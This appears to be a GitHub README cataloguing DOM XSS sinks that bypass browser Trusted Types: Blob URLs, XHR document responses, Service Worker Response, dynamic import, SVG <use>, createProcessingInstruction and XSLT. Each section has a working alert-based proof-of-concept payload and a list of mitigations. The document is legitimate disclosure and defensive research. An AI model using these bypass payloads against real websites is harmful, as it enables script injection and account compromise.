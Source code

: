 # Cursed Types

This repo contains list of DOM-based XSS sinks which are not subject to [Trusted Types](https://web.dev/trusted-types/) checks. Contributions welcome! 😊

## Blob URL

Trusted Types enforced on a document will be inherited to Blob URL when navigating to Blob URL. However, resulting document of the Blob URL contains stored XSS payload, and therefore it bypasses Trusted Types check.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/blob_url.html):
```
let attackerControlledString = '<img src=x onerror=alert(origin)>';
const blob = new Blob([attackerControlledString], {type: 'text/html'});
const url = URL.createObjectURL(blob);
location.href = url;
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).
- There is a discussion to provide an option for creating a [secure Blob URL](https://github.com/w3c/FileAPI/issues/74).

## XHR document response

XMLHttpRequest (XHR) supports [`document` response type](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/HTML_in_XMLHttpRequest), which returns parsed document of XHR response instead of text.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/xhr_document.html):
```
let attackerControlledString = 'data:text/html,<img id=content src=x onerror=alert(origin)>';
const xhr = new XMLHttpRequest();
xhr.onload = function() {
  document.body.appendChild(this.response.querySelector('#content'));
}

xhr.open("GET", attackerControlledString);
// The following changes response type from text to parsed document.
xhr.responseType = "document";
xhr.send();
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).
- Only allow trusted endpoints in [CSP connect-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/connect-src).

## Response API

[Response API](https://developer.mozilla.org/en-US/docs/Web/API/Response/Response) can be used in several places to serve a response of a request through Service Worker. If the Response is generated from user input, this could result in Trusted Types bypasses.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/service_worker_response.html):
```
self.addEventListener('fetch', event => {
  const params = new URLSearchParams(event.request.url.split('?')[1]);
  let attackerControlledString = params.get('attackerControlledString');
  
  if (attackerControlledString) {
    init = {
      headers: {
        'Content-Type': 'text/html',
        'Content-Security-Policy': "require-trusted-types-for 'script'; trusted-types 'none';"
          
      }
    };
    event.respondWith(new Response(attackerControlledString, init));
  }
});
```

```
// Assuming legit service worker returns cached content.
caches.open("v1").then(cache => {
  let attackerControlledString = '<img src=x onerror=alert(origin)>';
  init = {
    headers: {
      'Content-Type': 'text/html',
      'Content-Security-Policy': "require-trusted-types-for 'script'; trusted-types 'none';"

    }
  };
  cache.put('xss', new Response(attackerControlledString, init));
})
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).

## Non-DOM API based script loading

[Non-DOM API based script loading](https://github.com/w3c/webappsec-trusted-types/issues/232) currently bypasses Trusted Types.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/script_loading.html):
```
let attackerControlledString = 'data:application/javascript,alert(origin)';
import(attackerControlledString);
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp) + serve allow-list of script endpoints in another `script-src` directive.

## SVG `<use>` element

[SVG `<use>`](https://developer.mozilla.org/en-US/docs/Web/SVG/Element/use) element takes `href` attribute, which can import an external SVG image from given URL. This currently bypasses Trusted Types check. This was found by [Masato](https://twitter.com/kinugawamasato).


[PoC](https://shhnjk.github.io/PoCs/cursed_types/svg_use.html):
```
let attackerControlledString = 
    `data:image/svg+xml,
     <svg id="x" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
       <image href="x" onerror="alert(origin)" />
     </svg>#x`;
const svg = document.createElementNS('http://www.w3.org/2000/svg', 'svg');
const use = document.createElementNS('http://www.w3.org/2000/svg', 'use');
use.setAttributeNS('http://www.w3.org/1999/xlink', 'href', attackerControlledString);
svg.appendChild(use);    
document.body.appendChild(svg);
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).
- This is likely to be fixed in the future ([reference](https://github.com/w3c/webappsec-trusted-types/issues/357)).

## document.createProcessingInstruction API

[`document.createProcessingInstruction`](https://developer.mozilla.org/en-US/docs/Web/API/Document/createProcessingInstruction) can create [processing instruction](https://developer.mozilla.org/en-US/docs/Web/API/ProcessingInstruction) node from given URL and content type. This node can be inserted to a document which is [valid as XML](https://twitter.com/kinugawamasato/status/1493901445103439876). Currently there is no Trusted Types check on `document.createProcessingInstruction`. This was found by [Masato](https://twitter.com/kinugawamasato).

[PoC](https://shhnjk.github.io/PoCs/cursed_types/createProcessingInstruction.xml):
```
/*
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">
  <xsl:output method="html" />
  <xsl:template match="/">
    <script>alert(origin)</script>
  </xsl:template>
</xsl:stylesheet>
*/
let attackerControlledString = 'data:text/xml;base64,PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iVVRGLTgiPz4KPHhzbDpzdHlsZXNoZWV0IHhtbG5zOnhzbD0iaHR0cDovL3d3dy53My5vcmcvMTk5OS9YU0wvVHJhbnNmb3JtIiB2ZXJzaW9uPSIxLjAiPgogIDx4c2w6b3V0cHV0IG1ldGhvZD0iaHRtbCIgLz4KICA8eHNsOnRlbXBsYXRlIG1hdGNoPSIvIj4KICAgIDxzY3JpcHQ+YWxlcnQob3JpZ2luKTwvc2NyaXB0PgogIDwveHNsOnRlbXBsYXRlPgo8L3hzbDpzdHlsZXNoZWV0Pg==';
const pi = document.createProcessingInstruction('xml-stylesheet', `href='${attackerControlledString}' type='text/xml'`);
document.insertBefore(pi, document.firstChild);
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).

## XSLT

Some elements in [XSLT](https://developer.mozilla.org/en-US/docs/Web/XSLT) supports `disable-output-escaping` (such as [`<xsl:text>`](https://developer.mozilla.org/en-US/docs/Web/XSLT/Element/text) and [`<xsl:value-of>`](https://developer.mozilla.org/en-US/docs/Web/XSLT/Element/value-of)). When `disable-output-escaping` is set to `yes`, escaping of HTML special characters will be disabled (and therefore XSS will be triggered). Currently, Trusted Types is bypassible in this case. This was found by [Alex](https://twitter.com/insertScript).

[PoC](https://shhnjk.github.io/PoCs/cursed_types/xslt.html):
```
let attackerControlledString = '<img src=x onerror=alert(origin)>';
const doc = document.implementation.createHTMLDocument();
const xslt = document.createElementNS('http://www.w3.org/1999/XSL/Transform', 'xsl:stylesheet');
xslt.setAttribute('xmlns:xsl', 'http://www.w3.org/1999/XSL/Transform');
const template = document.createElementNS('http://www.w3.org/1999/XSL/Transform', 'xsl:template');
template.setAttribute('match', '/');
const output = document.createElementNS('http://www.w3.org/1999/XSL/Transform', 'xsl:output');
output.setAttribute('method', 'html');
xslt.appendChild(output);
const text = document.createElementNS('http://www.w3.org/1999/XSL/Transform', 'xsl:text');
text.textContent = attackerControlledString;
text.setAttribute('disable-output-escaping', 'yes');
template.appendChild(text);
xslt.appendChild(template);
const processor = new XSLTProcessor();
processor.importStylesheet(xslt);
const fragment = processor.transformToFragment(doc, document);
document.body.appendChild(fragment);
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).
